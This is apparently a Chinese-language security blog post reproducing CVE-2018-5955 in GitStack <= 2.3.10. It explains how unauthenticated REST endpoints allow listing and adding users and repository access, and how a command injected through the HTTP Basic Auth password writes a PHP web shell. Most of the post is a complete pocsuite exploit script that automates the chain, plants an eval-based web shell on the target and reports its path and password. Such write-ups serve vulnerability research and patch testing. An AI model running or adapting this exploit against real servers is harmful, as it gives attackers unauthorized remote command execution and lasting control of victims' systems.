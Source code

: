 ```yaml
---
layout: post
title:  "GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞（CVE-2018-5955）"
date:   2019-8-3 10:30:43
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```


## GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞

### 漏洞概述：

该漏洞时基于多个小漏洞实现的，大体过程如下：  

#### 用户相关 rest_user：

1.使用 GET 方式可以直接查看 GitStack 仓库的用户列表，存在未授权访问信息泄露漏洞   
直接访问http://ip/rest/user 即可获取gitstack库中的所有用户  

2.通过 POST 方法，指定 username 和 password 可以直接添加仓库用户，存在任意用户添加漏洞  

```
URL：http://ip/rest/user/
POST：username=test_username&password=test_passwd
```

#### project相关：

1.通过 POST 一个带有 CSRF_TOKEN的name 值即可创建一个以 name 值命名的project![创建project](/assets/img/posts/gitstack-1.png)

CSRF_TOKEN 存在于 http://ip/registration/login/?next=/gitstack/ 的源码中

![nihao](/assets/img/posts/gitstack-2.png)

2.任意 project 添加 user

只需要向 http://ip/rest/repository/ 传递 new__project 和 new_username 的值即可在名为 new_project 的项目中创建名为 new_username 的用户 

```bash
POST http://ip/rest/repository/new_projectname/user/new_username/
```

![任意 project 添加 user](/assets/img/posts/gitstack-3.png)

#### 命令执行（文件上传）：

通过 HTTP Basic Authentication 认证过程中的漏洞，发送如下请求即可实现命令执行，以上传文件为例子

```python
requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST['a']); ?>" > c:GitStackgitphpexploit.php'))
```

## EXP

该 EXP 使用 pocsuite 框架格式编写 

```python
#!/usr/bin/python2.7
# -*- coding: utf-8 -*-
from pocsuite.api.poc import register,Output, POCBase
from requests.auth import HTTPBasicAuth
import requests,urlparse,random,os,sys,hashlib,string


class TestPOC(POCBase):
    vulID = 'N/A'
    version = 'GitStack <= 2.3.10'
    author = 'co0ontty'
    vulDate = '2019-7-11'
    createDate = '2019-7-16'
    updateDate = '2018-3-31'
    references = ['https://xz.aliyun.com/t/2235']
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析'
    appPowerLink = 'https://gitstack.com'
    appName = 'GitStack'
    appVersion = 'GitStack <= 2.3.10'
    vulType = '文件上传'
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    '''
    samples = []
    install_requires = []

    def _attack(self):
        result = {}
        target = self.url
        hostname = urlparse.urlparse(target).hostname
        port = urlparse.urlparse(target).port
        if port is None:
            target = target+":80"
        repository = ''.join(random.sample(string.digits+string.ascii_letters,4))
        username = ''.join(random.sample(string.digits+string.ascii_letters,4))
        password = ''.join(random.sample(string.digits+string.ascii_letters,4))
        csrf_token = ''.join(random.sample(string.digits+string.ascii_letters,4))
        user_list = []
        r_getuser = requests.get("{}/rest/user/".format(target))
        try:
            user_list = r_getuser.json()
            user_list.remove('everyone')
        except:
            pass
        if len(user_list) > 0:
            username = user_list[0]
        else:
            r_create_user = requests.post("{}/rest/user/".format(target),data={'username' : username, 'password' : password})
        r_getrepo = requests.get("{}/rest/repository/".format(target))
        repository_list = r_getrepo.json()
        if len(repository_list) > 0:
            repository = repository_list[0]['name']
        r_post_csrftoken = requests.post("{}/rest/repository/".format(target), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
        r_create_user = requests.post("{}/rest/repository/{}/user/{}/".format(target, repository, username))
        r_del_user = requests.delete("{}/rest/repository/{}/user/{}/".format(target, repository, "everyone"))
        random_file_name = ''.join(random.sample(string.ascii_letters+string.digits,16))+".php"
        random_identify_code = ''.join(random.sample(string.ascii_letters+string.digits,35))
        random_shell_pass = ''.join(random.sample(string.ascii_letters+string.digits,5))
        webshell = 'p && echo " <?php @eval($_POST['+random_shell_pass+']);echo"'+random_identify_code+'";?>" > c:'
        r_create_file = requests.get('{}/web/index.php?p={}.git&a=summary'.format(target, repository), auth=HTTPBasicAuth(username, "{}".format(webshell)+random_file_name))
        test_url = target+"/web/"+random_file_name
        r_attack = requests.get(test_url)
        if (r_attack.status_code == 200):
            if (random_identify_code in r_attack.text):
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
                result['VerifyInfo']['ShellPath'] = test_url
                result['VerifyInfo']['ShellPasswd'] = random_shell_pass
            pass
        return self.parse_output(result)

    _verify = _attack

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)

```

